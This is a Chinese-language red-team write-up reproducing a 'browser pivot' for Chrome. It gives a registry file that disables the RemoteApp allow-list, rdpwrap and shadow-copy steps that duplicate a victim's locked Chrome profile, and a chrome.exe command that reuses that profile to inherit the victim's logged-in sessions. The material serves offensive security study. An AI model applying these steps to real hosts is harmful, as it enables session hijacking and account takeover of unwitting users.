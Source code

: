 # Browser Pivot for Chrome

​		标题只是个噱头。文章介绍如何窃取当前chrome的session,以获取当前用户正在浏览的web的权限。根据[browser-pivot-for-chrome](https://ijustwannared.team/2019/03/11/browser-pivot-for-chrome/)复现。

#### 0x00 前言

​		在CS上有Browser Pivot功能,用于针对IE进行浏览器中间人攻击，劫持受感染用户的已验证Web会话。Cobalt Strike使用注入到32位和64位Internet Explorer中的代理服务器来实现浏览器透视。当浏览此代理服务器时，将继承Cookie，经过身份验证的HTTP会话和客户端SSL证书。对于chrome，作者提供使用RemoteAPP+命令行指定配置文件启动chrome的方式来达到类似效果。

#### 0x01 RemoteAPP

​		RemoteAPP是一种虚拟应用程序解决方案，无论用户使用什么操作系统，都可以使用户运行基于Windows的应用程序。它允许用户从出现在其计算机上的服务器启动虚拟应用程序，就像虚拟服务器是本地安装的一样，但实际上是在远程服务器上运行的。简而言之，RemoteAPP是RDP服务的一种，区别于远程桌面，它只在客户端打开服务端上指定的应用，如CMD。默认支持RemoteAPP服务端的系统要求最低win7 Enterprise和ULtimate，需要开启多用户登录支持，我使用[Rdpwrap](https://github.com/stascorp/rdpwrap)来实现。使用RemoteAPP可绕过chrome的校验。

#### 0x02 命令行启动Chrome

​		在终端里，可以用chrome.exe [options]的形式[指定参数](https://www.cnblogs.com/videring/articles/7243958.html)来开启chrome。通过使用chrome的远程调试模式，还可以[获取到页面cookie](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)。

#### 0x03 利用步骤

- **使用Rdpwrap开启多用户同时登录**

  `rdpwinst -i is`

- **修改注册表**

  ```
  Windows Registry Editor Version 5.00
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server]
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList]
  "LicenseServers"=hex(7):00,00
  "CertificateIssuedBy"=""
  "LicensingType"=dword:00000005
  "fHasCertificate"=dword:00000000
  "CertificateExpiresOn"=""
  "CentralLicensing"=dword:00000000
  "fDisabledAllowList"=dword:00000001
  "CertificateIssuedTo"=""
  "CustomRDPSettings"="authentication level:i:2"
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList\Applications]
  
  [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList\Applications\Notepad]
  "Name"="Notepad"
  "Path"="C:\\\\windows\\\\system32\\\\notepad.exe"
  ```

- **配置rdp文件**

  在mstsc上另存为rdp文件

  ![](./media/20191224-1.png)

  编辑得到的rdp文件，在末尾添加配置

  ![](./media/20191224-3.png)

  注意箭头处要和上面注册表项里的"Name"项一致

- **卷影复制Chrome配置文件**

  在用户使用chrome时，由于占用了配置文件导致无法复制，需要使用卷影来复制。我使用[VolumeShadowCopyTools](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/VolumeShadowCopyTools.ps1)来实现。要复制的配置文件C:\Users\cate4cafe\AppData\Local\Google\Chrome\User Data，我把复制的文件放在C:\\users\\public目录下

- **使用RemoteAPP打开chrome**

  在Explorer进到chrome.exe所在目录，打开cmd，命令`chrome.exe --user-data-dir="C:\\users\\public\documents\User Data" --disable-gpu` 我在虚拟机下需要用--disable-gpu禁用chrome硬件加速才能正常启动，不然chrome会黑框。物理机上没测试。

  ![](./media/20191224-4.png)

  

#### 0x04 后记

​		在默认不支持RemoteAPP的系统上，或许可以参照[771-windows-7-professional-as-remoteapp-server](http://hardwarefetish.com/771-windows-7-professional-as-remoteapp-server)修改来使系统支持RemoteAPP。由于我只是个脚本菜鸡，没能成功实现。等我的偶像站长来实现吧，仰慕他！

